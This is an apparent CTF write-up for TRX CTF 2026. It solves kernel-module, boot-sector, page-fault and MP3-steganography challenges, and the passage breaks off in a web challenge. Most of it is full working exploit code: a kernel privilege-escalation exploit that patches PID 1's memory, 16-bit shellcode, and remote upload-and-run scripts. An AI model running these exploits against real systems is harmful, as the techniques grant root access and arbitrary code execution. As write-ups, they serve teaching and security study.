

# TRX CTF 2026 Writeup By F1ux

## pwn/krwd

The challenge provides a kernel module exposing `/dev/chall`. Users can create asynchronous requests with two ioctls:

- `IOCTL_CHALL_ADD_REQUEST`: stores a `READ/WRITE/DELETE` request;
- `IOCTL_CHALL_SET_WORK`: schedules the selected request as `delayed_work`.

The bug is in `request_handler()`:

```C
copy_to_user(kreq->info.rw.ubuf, kbuf->buf, size);
copy_from_user(kbuf->buf, kreq->info.rw.ubuf, size);
```

The module stores a raw user pointer in a global request object, then later uses it from a kernel worker thread. It records the submitting process's `pid/uid/gid`, but it does not keep or switch to the submitting process's `mm`.

Since `kworker` is a kernel thread, it has no userspace address space of its own. When `copy_{to,from}_user()` runs, it uses the current active mm. In this single-core QEMU setup, we can stop and continue the user shell so that PID 1 (`/init`) is scheduled right before the delayed work runs. Then the worker borrows PID 1's active mm, turning `/dev/chall` into a read/write primitive for PID 1 userspace memory.

### Exploitation

The init script ends with:

```Bash
setsid cttyhack setuidgid 1000 /bin/sh
poweroff -d 1 -n -f
```

The flag is attached as the raw IDE disk `/dev/sda`. The normal user cannot read it, but PID 1 is root.

The exploit works as follows:

1. Use the normal module interface to create a kernel buffer as a staging buffer.
2. Schedule an asynchronous `TYPE_WRITE` request while forcing the worker to run with PID 1's active mm. This copies bytes from a PID 1 userspace address into the kernel buffer, giving arbitrary read from PID 1 memory.
3. Read `__curbrk` and `main_arena.top` from the statically linked BusyBox process to locate PID 1's heap.
4. Scan PID 1's heap for the cached `/init` script content and find:
   1. `poweroff -d 1 -n -f`
5. Schedule an asynchronous `TYPE_READ` request under PID 1's active mm. This copies bytes from the kernel buffer back into a PID 1 userspace address, giving arbitrary write to PID 1 memory.
6. Replace the final command with an equal-length command:
   1. `cat /dev/sda #xxxx`
7. Kill the normal user shell. PID 1 resumes the init script and executes the patched root command, printing the flag from `/dev/sda`.

### Exploit Script

The exploit implements these two primitives:

```C
pid1_read(addr, buf, size);
pid1_write(addr, buf, size);
```

Both primitives use the kernel buffer as a bridge and use `SIGSTOP/SIGCONT` plus delayed work timing to make `copy_{to,from}_user()` operate on PID 1's address space.

`run_remote.py` automates the whole remote exploit

1. solves the hashcash proof of work;
2. uploads the static exploit as gzip+base64;
3. decodes and runs it inside the QEMU shell;
4. extracts the flag from the output.

**run_remote.py**

```Python
#!/usr/bin/env python3
import os
import re
import subprocess
import sys
import time

from pwn import context, remote


HOST = os.environ.get("HOST", "15b45b3e2bd1.krwd.ctf.theromanxpl0.it")
PORT = int(os.environ.get("PORT", "443"))
HERE = os.path.dirname(os.path.abspath(__file__))


def main() -> int:
    context.log_level = "info"

    io = remote(HOST, PORT, ssl=True, sni=HOST)
    pow_line = io.recvline(timeout=20).decode("ascii", "replace").strip()
    print(f"[+] PoW: {pow_line}", flush=True)
    m = re.search(r"hashcash -mb(\d+) ([a-z]+)", pow_line)
    if not m:
        raise RuntimeError(f"unexpected PoW line: {pow_line!r}")

    bits, resource = m.groups()
    print(f"[+] mining {bits}-bit stamp for resource {resource}", flush=True)
    stamp = subprocess.check_output(
        [os.path.join(HERE, "hashcash_miner"), resource, str(os.cpu_count() or 8)],
        text=True,
    ).strip()
    print(f"[+] stamp: {stamp}", flush=True)
    io.sendline(stamp.encode())

    io.recvuntil(b"~ $ ", timeout=120)
    print("[+] shell ready", flush=True)

    b64_path = os.path.join(HERE, "exploit_krwd.gz.b64w")
    with open(b64_path, "rb") as f:
        payload = f.read()

    print(f"[+] uploading {len(payload)} bytes of base64", flush=True)
    io.sendline(b"stty -echo; cat > /tmp/x.b64 <<'EOF'")
    for off in range(0, len(payload), 4096):
        io.send(payload[off : off + 4096])
        time.sleep(0.002)
    if not payload.endswith(b"\n"):
        io.send(b"\n")
    io.sendline(b"EOF")
    io.sendline(b"stty echo")
    io.recvuntil(b"~ $ ", timeout=120)

    print("[+] decoding and running exploit", flush=True)
    io.sendline(b"base64 -d /tmp/x.b64 > /tmp/x.gz && gzip -d /tmp/x.gz && chmod +x /tmp/x && /tmp/x")
    data = io.recvrepeat(timeout=45)
    sys.stdout.buffer.write(data)
    sys.stdout.buffer.flush()

    flag = re.search(rb"TRX\{[^}\x00\r\n]*\}", data)
    if flag:
        print(f"\n[+] FLAG: {flag.group(0).decode()}", flush=True)
        return 0

    more = io.recvall(timeout=10)
    sys.stdout.buffer.write(more)
    sys.stdout.buffer.flush()
    flag = re.search(rb"TRX\{[^}\x00\r\n]*\}", data + more)
    if flag:
        print(f"\n[+] FLAG: {flag.group(0).decode()}", flush=True)
        return 0

    print("\n[-] flag not found in output", flush=True)
    return 1


if __name__ == "__main__":
    raise SystemExit(main())

# HOST=6e6a5d481720.krwd.ctf.theromanxpl0.it PORT=443 python3 run_remote.py
```

**hashcash_miner.c**

```C
#define _GNU_SOURCE
#include <openssl/sha.h>
#include <pthread.h>
#include <stdatomic.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

static const uint64_t CHUNK = 1ULL << 18;
static atomic_ullong next_counter;
static atomic_int found;
static char prefix[256];
static char answer[320];

static int good_digest(const unsigned char d[SHA_DIGEST_LENGTH]) {
    return d[0] == 0 && d[1] == 0 && d[2] == 0 && (d[3] & 0xf0) == 0;
}

static void *worker(void *arg) {
    (void)arg;
    char stamp[320];
    unsigned char digest[SHA_DIGEST_LENGTH];

    while (!atomic_load_explicit(&found, memory_order_relaxed)) {
        uint64_t start = atomic_fetch_add_explicit(&next_counter, CHUNK, memory_order_relaxed);
        uint64_t end = start + CHUNK;
        for (uint64_t c = start; c < end; c++) {
            if (atomic_load_explicit(&found, memory_order_relaxed)) {
                return NULL;
            }
            int n = snprintf(stamp, sizeof(stamp), "%s%llx", prefix, (unsigned long long)c);
            SHA1((const unsigned char *)stamp, (size_t)n, digest);
            if (good_digest(digest)) {
                if (!atomic_exchange(&found, 1)) {
                    strcpy(answer, stamp);
                }
                return NULL;
            }
        }
    }
    return NULL;
}

int main(int argc, char **argv) {
    if (argc < 2) {
        fprintf(stderr, "usage: %s resource [threads]\n", argv[0]);
        return 2;
    }

    int threads = argc >= 3 ? atoi(argv[2]) : (int)sysconf(_SC_NPROCESSORS_ONLN);
    if (threads < 1) threads = 1;
    if (threads > 128) threads = 128;

    time_t now = time(NULL);
    struct tm tm;
    localtime_r(&now, &tm);
    char date[16];
    strftime(date, sizeof(date), "%y%m%d", &tm);

    snprintf(prefix, sizeof(prefix), "1:29:%s:%s::codexCTF:", date, argv[1]);

    pthread_t *tids = calloc((size_t)threads, sizeof(*tids));
    if (!tids) {
        perror("calloc");
        return 1;
    }

    for (int i = 0; i < threads; i++) {
        pthread_create(&tids[i], NULL, worker, NULL);
    }
    for (int i = 0; i < threads; i++) {
        pthread_join(tids[i], NULL);
    }

    puts(answer);
    free(tids);
    return 0;
}
```

**exploit_krwd.c**

```C
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <linux/ioctl.h>
#include <signal.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

enum krequest_type {
    TYPE_READ,
    TYPE_WRITE,
    TYPE_DELETE,
    TYPE_SET_WORK
};

union request_info {
    struct {
        size_t size;
        char *ubuf;
        size_t kbuf_idx;
    } rw;
    struct {
        size_t kbuf_idx;
    } delete;
    struct {
        size_t kreq_idx;
        unsigned long time;
    } work;
};

struct urequest {
    enum krequest_type type;
    union request_info info;
    size_t req_idx;
};

#define IOCTL_CHALL_MAGIC 'E'
#define IOCTL_CHALL_ADD_REQUEST _IOW(IOCTL_CHALL_MAGIC, 0, struct urequest *)
#define IOCTL_CHALL_SET_WORK _IOW(IOCTL_CHALL_MAGIC, 3, struct urequest *)

#define KBUF_IDX 7
#define CURBRK_ADDR 0x65fe90ULL
#define MAIN_ARENA_ADDR 0x6578c0ULL
#define MAIN_ARENA_TOP_OFF 0x60ULL

static int fd;
static pid_t shell_pid;

static void die(const char *msg) {
    perror(msg);
    exit(1);
}

static void add_req(struct urequest *r) {
    if (ioctl(fd, IOCTL_CHALL_ADD_REQUEST, r) < 0) {
        die("ADD_REQUEST");
    }
}

static void set_work(size_t idx, unsigned int ms) {
    struct urequest r;
    memset(&r, 0, sizeof(r));
    r.type = TYPE_SET_WORK;
    r.info.work.kreq_idx = idx;
    r.info.work.time = ms;
    if (ioctl(fd, IOCTL_CHALL_SET_WORK, &r) < 0) {
        die("SET_WORK");
    }
}

static void run_local(struct urequest *r) {
    add_req(r);
    set_work(r->req_idx, 0);
    usleep(25000);
}

static void run_with_pid1_mm(struct urequest *r) {
    kill(shell_pid, SIGCONT);
    usleep(5000);

    add_req(r);
    set_work(r->req_idx, 80);

    kill(shell_pid, SIGSTOP);
    usleep(150000);
    kill(shell_pid, SIGCONT);
    usleep(25000);
}

static void write_kbuf(const void *buf, size_t n) {
    struct urequest r;
    memset(&r, 0, sizeof(r));
    r.type = TYPE_WRITE;
    r.info.rw.size = n;
    r.info.rw.ubuf = (char *)buf;
    r.info.rw.kbuf_idx = KBUF_IDX;
    run_local(&r);
}

static void read_kbuf(void *buf, size_t n) {
    struct urequest r;
    memset(&r, 0, sizeof(r));
    r.type = TYPE_READ;
    r.info.rw.size = n;
    r.info.rw.ubuf = buf;
    r.info.rw.kbuf_idx = KBUF_IDX;
    run_local(&r);
}

static void pid1_read(uint64_t addr, void *buf, size_t n) {
    char zero[0x400];
    struct urequest r;

    memset(zero, 0, sizeof(zero));
    write_kbuf(zero, sizeof(zero));

    memset(&r, 0, sizeof(r));
    r.type = TYPE_WRITE;
    r.info.rw.size = n;
    r.info.rw.ubuf = (char *)addr;
    r.info.rw.kbuf_idx = KBUF_IDX;
    run_with_pid1_mm(&r);

    read_kbuf(buf, n);
}

static void pid1_write(uint64_t addr, const void *buf, size_t n) {
    struct urequest r;

    write_kbuf(buf, n);

    memset(&r, 0, sizeof(r));
    r.type = TYPE_READ;
    r.info.rw.size = n;
    r.info.rw.ubuf = (char *)addr;
    r.info.rw.kbuf_idx = KBUF_IDX;
    run_with_pid1_mm(&r);
}

int main(void) {
    static const char needle[] = "poweroff -d 1 -n -f\n";
    static const char payload[] = "cat /dev/sda #xxxxx\n";
    unsigned char page[0x400];
    uint64_t curbrk = 0, arena_top = 0, found = 0;

    fd = open("/dev/chall", O_RDWR);
    if (fd < 0) die("open /dev/chall");

    shell_pid = getppid();
    printf("[*] shell pid: %d\n", shell_pid);

    for (int i = 0; i < 12; i++) {
        pid1_read(CURBRK_ADDR, &curbrk, sizeof(curbrk));
        pid1_read(MAIN_ARENA_ADDR + MAIN_ARENA_TOP_OFF, &arena_top, sizeof(arena_top));
        if (curbrk > 0x1000000 && curbrk < 0x80000000 &&
            arena_top > curbrk - 0x1000000 && arena_top < curbrk) {
            break;
        }
        printf("[*] retry mm sync: brk=%#llx top=%#llx\n",
               (unsigned long long)curbrk, (unsigned long long)arena_top);
        curbrk = 0;
        arena_top = 0;
    }

    printf("[*] pid1 brk=%#llx top=%#llx\n",
           (unsigned long long)curbrk, (unsigned long long)arena_top);
    if (!curbrk || !arena_top) {
        fprintf(stderr, "[-] failed to sync on PID 1 mm\n");
        return 1;
    }

    uint64_t start = (arena_top > 0x10000 ? arena_top - 0x10000 : arena_top) & ~0x3ffULL;
    uint64_t end = (curbrk + 0x3ffULL) & ~0x3ffULL;
    if (end <= start || end - start > 0x80000) {
        start = arena_top & ~0x3ffULL;
        end = start + 0x40000;
    }

    for (uint64_t addr = start; addr < end; addr += sizeof(page)) {
        pid1_read(addr, page, sizeof(page));
        void *p = memmem(page, sizeof(page), needle, sizeof(needle) - 1);
        if (p) {
            found = addr + (uint64_t)((unsigned char *)p - page);
            break;
        }
    }

    if (!found) {
        fprintf(stderr, "[-] did not find init script command\n");
        return 1;
    }

    printf("[+] patching command at %#llx\n", (unsigned long long)found);
    for (int i = 0; i < 8; i++) {
        pid1_write(found, payload, sizeof(payload) - 1);
        memset(page, 0, sizeof(page));
        pid1_read(found, page, sizeof(payload) - 1);
        if (!memcmp(page, payload, sizeof(payload) - 1)) {
            break;
        }
    }

    printf("[+] now: %.*s", (int)(sizeof(payload) - 1), page);
    if (memcmp(page, payload, sizeof(payload) - 1)) {
        fprintf(stderr, "[-] write verification failed\n");
        return 1;
    }

    puts("[*] terminating shell; PID 1 should print /dev/sda next");
    kill(shell_pid, SIGKILL);
    return 0;
}


// gcc -static -O2 -Wall -Wextra -o exploit_krwd exploit_krwd.c
// strip -s exploit_krwd -o exploit_krwd.stripped
// gzip -9c exploit_krwd.stripped > exploit_krwd.gz
// base64 -w76 exploit_krwd.gz > exploit_krwd.gz.b64w
```

## pwn/down-the-line

The program is a 16-bit boot sector with a tiny menu. `alloc` stores only segment values, `edit` writes `size << 4` bytes to that segment, and `read` sends the same amount of data to a selected serial port. The heap starts at `0x1000`, and both `PTRS` and `SIZES` are allocated inside the same heap without any boundary checks.

The key step is moving `SIZES` into the SeaBIOS shadow area at `0xf605`. The first three words there are `0x0002`, `0x0002`, and `0x0050`. With the following three allocations, the next chunk lengths become fixed:

1. First allocation size `0xf605 - 0x1001`
2. Second allocation size `0xfff0 - (0xf605 + 1)`
3. Third allocation size `1`

This gives the useful layout:

1. `chunk0` has effective length `0x20`
2. `chunk2` starts at segment `0xfff0`
3. `chunk2` has effective length `0x500`

With A20 enabled, `chunk2 + 0x100` reaches physical address `0x100000`. The challenge uses physical `0x100000` as the cached port value for `read(index, 0)`. By writing any port number there and then calling `read(0, 0)`, the 32 identical bytes stored in `chunk0` are sent to that port. This creates a stable one-byte port write primitive.

The next step is writing `0x00` to port `0x92`, which disables A20. After that, writes from `chunk2` wrap into low memory:

1. `chunk2 + 0x120` lands at low memory `0x20`
2. `chunk2 + 0x180` lands at low memory `0x80`

Those two locations are perfect for an `IRQ0` vector and a 16-bit shellcode stub. The shellcode does four simple things:

1. Poll `0x1f7` until the disk is ready
2. Set sector count to 1 and LBA to 1, which is the second sector
3. Read 256 words from `0x1f0` with ATA PIO into low memory
4. Print the bytes to `COM1`

The service forwards `COM1` into the same TLS connection, so the flag comes back in the response stream.

One more detail matters here: the QEMU connection uses a mux channel, and raw byte `0x01` is interpreted as a control key. Every `0x01` in a raw edit payload must be encoded as `0x01 0x01`, otherwise bytes disappear.

### Exploit

```Python
import socket, ssl, time

HOST = "49ed6e3a3a9d.down-the-line.ctf.theromanxpl0.it"
PORT = 443

base = 0xF605
size0 = base - 0x1001
size1 = 0xFFF0 - (base + 1)

shellcode = bytes.fromhex(
    "fa31c0fc8ed88ec031d2b2f7fec6eca88075fb80ea0530c0fec0ee42ee42"
    "30c0ee42ee42b0e0ee42b020eeeca80874fb80ea07bb000231c9fec5ed89"
    "0783c302e2f8be0002ac84c07406baf803eeebf5f4ebfd"
)

def esc(data: bytes) -> bytes:
    return data.replace(b"\x01", b"\x01\x01")

def recv_until(sock, token: bytes, timeout: float = 8.0) -> bytes:
    end = time.time() + timeout
    out = b""
    while time.time() < end:
        try:
            chunk = sock.recv(65536)
            if chunk:
                out += chunk
                if token in out:
                    return out
            else:
                time.sleep(0.02)
        except Exception:
            time.sleep(0.02)
    return out

def recv_for(sock, timeout: float) -> bytes:
    end = time.time() + timeout
    out = b""
    while time.time() < end:
        try:
            out += sock.recv(65536)
        except Exception:
            time.sleep(0.02)
    return out

def sendline(sock, value, token=b"choice> ", timeout=8.0) -> bytes:
    if isinstance(value, int):
        value = str(value).encode()
    elif isinstance(value, str):
        value = value.encode()
    sock.sendall(value + b"\r")
    return recv_until(sock, token, timeout)

def edit(sock, idx: int, raw: bytes, timeout: float = 5.0) -> bytes:
    sendline(sock, 2, b"index> ")
    sendline(sock, idx, b"data> ")
    sock.sendall(esc(raw))
    return recv_until(sock, b"choice> ", timeout)

def read_idx(sock, idx: int, port: int, timeout: float = 5.0) -> bytes:
    sendline(sock, 3, b"index> ")
    sendline(sock, idx, b"port> ")
    return sendline(sock, port, b"choice> ", timeout)

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

sock = ctx.wrap_socket(
    socket.create_connection((HOST, PORT), timeout=5),
    server_hostname=HOST,
)
sock.settimeout(0.25)

recv_until(sock, b"choice> ", 8.0)

sendline(sock, 1, b"size> ")
sendline(sock, size0)
sendline(sock, 1, b"size> ")
sendline(sock, size1)
sendline(sock, 1, b"size> ")
sendline(sock, 1)

edit(sock, 0, b"\x00" * 32, 3.0)
template = bytearray(0x500)

def outb(port: int, value: int) -> None:
    edit(sock, 0, bytes([value]) * 32, 3.0)
    payload = bytearray(template)
    payload[0x100:0x102] = port.to_bytes(2, "little")
    edit(sock, 2, bytes(payload), 4.0)
    read_idx(sock, 0, 0, 4.0)

outb(0x92, 0x00)

payload = bytearray(0x500)
payload[0x120:0x124] = b"\x80\x00\x00\x00"
payload[0x180:0x180 + len(shellcode)] = shellcode

out = edit(sock, 2, bytes(payload), 3.0)
out += recv_for(sock, 4.0)

start = out.index(b"TRX{")
end = out.index(b"}", start) + 1
print(out[start:end].decode())

sock.close()
```

Flag: `TRX{d0wn_7h3_a20_l1n3_f7w}`

## rev/faulty-road

### **Kernel Module Behavior**

The module registers a misc device. Its main attack surface is the `ioctl` handler.

There are two useful `ioctl` behaviors:

1. Command `0x10` copies a 64-byte state buffer from the kernel module to user space.
2. Other commands take a user-space address, inspect its page table entries, and prepare modified exception handling data.

The 64-byte state can be represented as:

```C
struct road_state {
    uint64_t addr[4];
    uint64_t idx[4];
    uint64_t bits[4];
};
```

The first four values are randomized fault addresses. The next four values are register indexes. The last four values are the state bits used by the challenge logic.

The module contains two important handlers:

```Plain
pfh: page fault handler
rsh: APIC timer interrupt handler
```

The setup `ioctl` redirects the page fault entry to `pfh`, and redirects the APIC timer interrupt entry to `rsh`. After that, when user space intentionally accesses one of the randomized invalid addresses, execution first reaches `pfh`.

Inside `pfh`, the module reads `CR2` to get the faulting address. It also checks the saved general-purpose registers from the exception frame. For a fault to be accepted, two conditions must hold:

```Plain
CR2 must equal one of addr[0..3]
The register selected by the matching idx[i] must also equal that same address
```

The handler also counts how many saved registers equal the target address. The count must be exactly one. This means the exploit needs to put the target address into exactly one selected register, while filling the other registers with different marker values.

### **State Machine**

Let the four fault addresses be named:

```Plain
A = addr[0]
B = addr[1]
C = addr[2]
D = addr[3]
```

The page fault handler updates the state like this:

```Plain
Address A -> requires bits[3] == bits[0], then bits[3] ^= 1 and bits[0] = bits[3]
Address B -> requires bits[3] == bits[1], then bits[3] ^= 1 and bits[1] = bits[3]
Address C -> requires bits[3] == bits[2], then bits[3] ^= 1 and bits[2] = bits[3]
Address D -> directly flips bits[3]
```

All bits start at zero. The goal is to make the first three bits equal to one. A valid sequence is:

```Plain
A, D, B, D, C
```

The state transition is:

```Plain
Initial -> bits[0..3] = 0,0,0,0
After A -> bits[0..3] = 1,0,0,1
After D -> bits[0..3] = 1,0,0,0
After B -> bits[0..3] = 1,1,0,1
After D -> bits[0..3] = 1,1,0,0
After C -> bits[0..3] = 1,1,1,1
```

The APIC timer interrupts handler checks the state. When the first three bits sum to three, it prints the flag directly to the serial port with `out 0x3f8`.

The timer interrupt also refreshes the randomized addresses and register indexes. A stable exploit splits the state sequence into two short parts:

```Plain
A, D
read the refreshed state again
B, D, C
wait for the timer interrupt to print the flag
```

The page faults still return to the normal kernel page fault path and deliver a signal to the process. The exploit uses `sigsetjmp` and `siglongjmp` to recover after each intentional fault.

### **Exploit**

#### **C Source**

```C
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <setjmp.h>
#include <signal.h>
#include <stdint.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <unistd.h>

extern void do_fault(uint64_t addr, int idx);

struct road_state {
    uint64_t addr[4];
    uint64_t idx[4];
    uint64_t bits[4];
};

static sigjmp_buf fault_jmp;
static unsigned char sigstk[0x8000];

static void fault_handler(int sig, siginfo_t *info, void *uctx) {
    (void)sig;
    (void)info;
    (void)uctx;
    siglongjmp(fault_jmp, 1);
}

static void install_handlers(void) {
    stack_t ss;
    memset(sigstk, 0, sizeof(sigstk));
    ss.ss_sp = sigstk;
    ss.ss_size = sizeof(sigstk);
    ss.ss_flags = 0;
    sigaltstack(&ss, NULL);

    struct sigaction sa;
    memset(&sa, 0, sizeof(sa));
    sa.sa_sigaction = fault_handler;
    sigemptyset(&sa.sa_mask);
    sa.sa_flags = SA_SIGINFO | SA_ONSTACK;
    sigaction(SIGSEGV, &sa, NULL);
    sigaction(SIGBUS, &sa, NULL);
    sigaction(SIGILL, &sa, NULL);
    sigaction(SIGTRAP, &sa, NULL);
}

static void one_fault(uint64_t addr, uint64_t idx) {
    if (sigsetjmp(fault_jmp, 1) == 0)
        do_fault(addr, (int)idx);
}

int main(void) {
    install_handlers();

    int fd = open("/dev/faulty_road", O_RDWR);
    if (fd < 0)
        return 1;

    volatile unsigned char warm[0x4000];
    for (unsigned i = 0; i < sizeof(warm); i += 0x1000)
        ((volatile unsigned char *)warm)[i] = 1;

    unsigned char *setup = mmap(NULL, 0x4000, PROT_READ | PROT_WRITE,
                                MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (setup == MAP_FAILED)
        return 1;
    memset(setup, 0x41, 0x4000);
    setup[0] = 0;

    struct road_state st;
    memset(&st, 0, sizeof(st));

    if (ioctl(fd, 0, setup) < 0)
        return 1;

    for (;;) {
        one_fault(0x123450000000ULL, 0);
        if (ioctl(fd, 0x10, &st) < 0)
            return 1;

        one_fault(st.addr[0], st.idx[0]);
        one_fault(st.addr[3], st.idx[3]);

        if (ioctl(fd, 0x10, &st) < 0)
            return 1;

        one_fault(st.addr[1], st.idx[1]);
        one_fault(st.addr[3], st.idx[3]);
        one_fault(st.addr[2], st.idx[2]);

        for (volatile unsigned long i = 0; i < 0x2000000UL; i++)
            __asm__ __volatile__("pause");
    }
}
```

#### **Assembly Helper**

```Assembly
.text
.global do_fault
.type do_fault, @function
do_fault:
    push %rbx
    push %rbp
    push %r12
    push %r13
    push %r14
    push %r15
    sub $8, %rsp
    mov %esi, (%rsp)

    mov %rdi, %rbp

    movabs $0x1111000000000000, %r15
    movabs $0x1111000000000001, %r14
    movabs $0x1111000000000002, %r13
    movabs $0x1111000000000003, %r12
    movabs $0x1111000000000004, %r11
    movabs $0x1111000000000005, %r10
    movabs $0x1111000000000006, %r9
    movabs $0x1111000000000007, %r8
    movabs $0x1111000000000008, %rsi
    movabs $0x1111000000000009, %rdi
    movabs $0x111100000000000a, %rdx
    movabs $0x111100000000000b, %rcx
    movabs $0x111100000000000c, %rbx
    movabs $0x111100000000000d, %rax

    cmpl $0, (%rsp)
    je .Lf_r15
    cmpl $1, (%rsp)
    je .Lf_r14
    cmpl $2, (%rsp)
    je .Lf_r13
    cmpl $3, (%rsp)
    je .Lf_r12
    cmpl $4, (%rsp)
    je .Lf_r11
    cmpl $5, (%rsp)
    je .Lf_r10
    cmpl $6, (%rsp)
    je .Lf_r9
    cmpl $7, (%rsp)
    je .Lf_r8
    cmpl $8, (%rsp)
    je .Lf_rsi
    cmpl $9, (%rsp)
    je .Lf_rdi
    cmpl $10, (%rsp)
    je .Lf_rdx
    cmpl $11, (%rsp)
    je .Lf_rcx
    cmpl $12, (%rsp)
    je .Lf_rbx
    cmpl $13, (%rsp)
    je .Lf_rax
    jmp .Lf_done

.Lf_r15:
    mov %rbp, %r15
    movb (%r15), %al
    jmp .Lf_done
.Lf_r14:
    mov %rbp, %r14
    movb (%r14), %al
    jmp .Lf_done
.Lf_r13:
    mov %rbp, %r13
    movb (%r13), %al
    jmp .Lf_done
.Lf_r12:
    mov %rbp, %r12
    movb (%r12), %al
    jmp .Lf_done
.Lf_r11:
    mov %rbp, %r11
    movb (%r11), %al
    jmp .Lf_done
.Lf_r10:
    mov %rbp, %r10
    movb (%r10), %al
    jmp .Lf_done
.Lf_r9:
    mov %rbp, %r9
    movb (%r9), %al
    jmp .Lf_done
.Lf_r8:
    mov %rbp, %r8
    movb (%r8), %al
    jmp .Lf_done
.Lf_rsi:
    mov %rbp, %rsi
    movb (%rsi), %al
    jmp .Lf_done
.Lf_rdi:
    mov %rbp, %rdi
    movb (%rdi), %al
    jmp .Lf_done
.Lf_rdx:
    mov %rbp, %rdx
    movb (%rdx), %al
    jmp .Lf_done
.Lf_rcx:
    mov %rbp, %rcx
    movb (%rcx), %al
    jmp .Lf_done
.Lf_rbx:
    mov %rbp, %rbx
    movb (%rbx), %al
    jmp .Lf_done
.Lf_rax:
    mov %rbp, %rax
    movb (%rax), %al

.Lf_done:
    add $8, %rsp
    pop %r15
    pop %r14
    pop %r13
    pop %r12
    pop %rbp
    pop %rbx
    ret
```

#### **Compile and Run**

Build a static binary:

```Bash
gcc -static -O2 -Wall -Wextra -o exploit exploit.c fault.S
```

Connect to the service:

```Bash
ncat --ssl 1d28040ee567.faulty-road.ctf.theromanxpl0.it 443
```

Upload and run the static binary in the shell. The exploit repeatedly drives the page fault state machine, then waits for the APIC timer interrupt to print the flag through the serial port.

```Plain
TRX{p463f4u17_45_mm10}
```

## rev/twinkle-twinkle-trx-star

The challenge provides a stripped Go binary `encoder` and an output file `song.mp3`. Although symbols are removed, `.gopclntab` is still present, allowing recovery of key functions such as:

main.main

QmU0r9nN.(*N28oOOYGUkH).Write

QmU0r9nN.(*N28oOOYGUkH).EncodeBufferInterleaved

### Analysis

The flag is **not** stored directly in audio data. The pipeline is:

flag → AES-CTR encryption → custom expansion encoding → embedded into MP3 frame side-info (main_data_begin)

For each MP3 frame, the hidden value is:

main_data_begin = (frame[4] << 1) | (frame[5] >> 7)

Extracting all frames reconstructs the encoded stream, which is then reversed to recover the ciphertext.

The AES key is derived from a PRNG seeded with `time.Now() % 1024`, so we brute-force all 1024 possibilities.

### Full Exploit Script

```Python
#!/usr/bin/env python3
import struct
import hashlib
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

MP3 = "song.mp3"

def parse_frames(data):
    i = 0
    frames = []
    while i + 6 < len(data):
        if data[i] == 0xff and (data[i + 1] & 0xe0) == 0xe0:
            b1, b2, b3, b4 = data[i:i+4]
            ver = (b2 >> 3) & 3
            layer = (b2 >> 1) & 3
            bitrate_idx = (b3 >> 4) & 0xf
            sr_idx = (b3 >> 2) & 3
            pad = (b3 >> 1) & 1

            if ver == 3 and layer == 1 and bitrate_idx not in (0, 15) and sr_idx != 3:
                bitrate_table = [
                    0, 32, 40, 48, 56, 64, 80, 96,
                    112, 128, 160, 192, 224, 256, 320, 0
                ]
                sr_table = [44100, 48000, 32000, 0]
                bitrate = bitrate_table[bitrate_idx] * 1000
                sr = sr_table[sr_idx]
                size = 144 * bitrate // sr + pad

                if i + size <= len(data):
                    frames.append(data[i:i+size])
                    i += size
                    continue
        i += 1
    return frames

def extract_values(mp3_path):
    data = open(mp3_path, "rb").read()
    frames = parse_frames(data)
    vals = []
    for f in frames:
        if len(f) >= 6:
            vals.append((f[4] << 1) | (f[5] >> 7))
    return vals

def decode_stream(vals):
    # reverse custom encoding
    out = []
    cur = 0
    for x in vals:
        if x == 0:
            cur += 255
        else:
            cur += x
            out.append(cur & 0xff)
            cur = 0
    return bytes(out)

def aes_ctr_dec(key, ct):
    iv = b"g" * 16
    dec = Cipher(algorithms.AES(key), modes.CTR(iv)).decryptor()
    return dec.update(ct) + dec.finalize()

vals = extract_values(MP3)
ct = decode_stream(vals)

for seed in range(1024):
    x = seed
    for _ in range(100):
        x ^= (x << 13) & 0xffffffffffffffff
        x ^= x >> 7
        x ^= (x << 17) & 0xffffffffffffffff
        x &= 0xffffffffffffffff

    key = hashlib.sha256(struct.pack("<Q", x)).digest()[:16]
    pt = aes_ctr_dec(key, ct)

    if b"TRX{" in pt:
        print(pt.decode())
        break
```

## web/geckodrce

### **Source Analysis**

The core bot logic is shown below:

```Python
#!/usr/bin/env python3
import time
import tempfile
import asyncio
from pathlib import Path
from fastapi import FastAPI, UploadFile, File, HTTPException
from selenium import webdriver
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service

app = FastAPI()

async def save_upload(upload: UploadFile, dst: Path) -> None:
    size = 0
    with dst.open("wb") as out:
        while True:
            chunk = await upload.read(1 * 1024 * 1024)
            if not chunk:
                break
            size += len(chunk)
            if size > 1 * 1024 * 1024:
                raise HTTPException(status_code=413, detail="Extension too large (max 1MB)")
            out.write(chunk)
    await upload.close()

def run_webdriver(ext_path: str) -> None:
